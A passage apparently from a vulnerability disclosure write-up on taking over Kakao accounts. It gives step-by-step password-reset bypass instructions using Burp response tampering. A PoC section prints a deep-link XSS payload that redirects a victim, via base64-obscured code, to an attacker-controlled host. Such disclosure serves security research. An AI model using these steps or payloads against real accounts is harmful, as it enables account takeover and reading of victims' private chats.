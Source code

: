 1. Using the Burp browser visit the [Reset Password](https://accounts.kakao.com/weblogin/find_password?lang=en&continue=%2Flogin%3Fcontinue%3Dhttps%253A%252F%252Faccounts.kakao.com%252Fweblogin%252Faccount%252Finfo) link.
2. Add the victim's email address on the next page (`Reset password for your Kakao Account`). Before clicking on `Next`, enable the `Intercept` feature in Burp.
3. In Burp, forward all requests until you see a POST request to `/kakao_accounts/check_verify_type_for_find_password.json`. Right-click and select `Do intercept > Response to this request`.
4. In the response change `verify_types` to `0` (this sends the verification code to the victim's email address and not to her/his phone):
```json
{
  "status": 0,
  "verify_types": [
    0
  ],
  "suspended": false,
  "dormant": false,
  "kakaotalk": false,
  "expired": false,
  "created_at": 1700754321,
  "two_step_verification": false,
  "is_fill_in_email": false,
  "account_type": 0,
  "display_id": null
}
```
5. Disable `Intercept` in Burp and go back to Burp's browser. Click on `Using email address`.
6. Enter the victim's nickname and email address on the next page and click the `Verify` button.
7. Open a new browser tab and paste the Burp Repeater URL to access the user's Kakao Mail account (as described in the [previous](#deep-link-to-kakao-mail-account-takeover) section). If the message `session expired` shows up, clear the browser's cache.
8. Grab the verification code from the email and enter it to proceed to the next page.
9. On the page `Additional user verification will proceed to protect your Kakao Account.`, enable `Intercept` in Burp again. Enter some values and click `Confirm`. Back in Burp when you see a POST request to `/kakao_accounts/check_phone_number.json`, adjust the `iso_code` and `phone_number` (without country code) parameters in the request body. Forward the request and disable the `Intercept` option again.
10. Finally, you can enter the new password.

## PoC

The goal of the PoC is to register [KakaoTalk for Windows/MacOS](https://www.kakaocorp.com/page/service/service/KakaoTalk?lang=en) or the open-source client [KiwiTalk](https://github.com/KiwiTalk/KiwiTalk) to a victim's account to read her/his **non-end-to-end** encrypted chat messages.

The steps for an attacker are as follows:

### Attacker prepares the malicious deep link

First, she/he stores the payload to a file, ...

```javascript
<script>
location.href = decodeURIComponent("kakaotalk%3A%2F%2Fbuy%2Fauth%2F0%2FcleanFrontRedirect%3FreturnUrl%3Dhttps%3A%2F%2Fm.shoppinghow.kakao.com%2Fm%2Fproduct%2FQ24620753380%2Fq%3A%22%3E%3Cimg%20src%3Dx%20onerror%3D%22document.location%3Datob%28%27aHR0cDovLzE5Mi4xNjguMTc4LjIwOjU1NTUvZm9vLmh0bWw%3D%27%29%3B%22%3E");
</script>
```
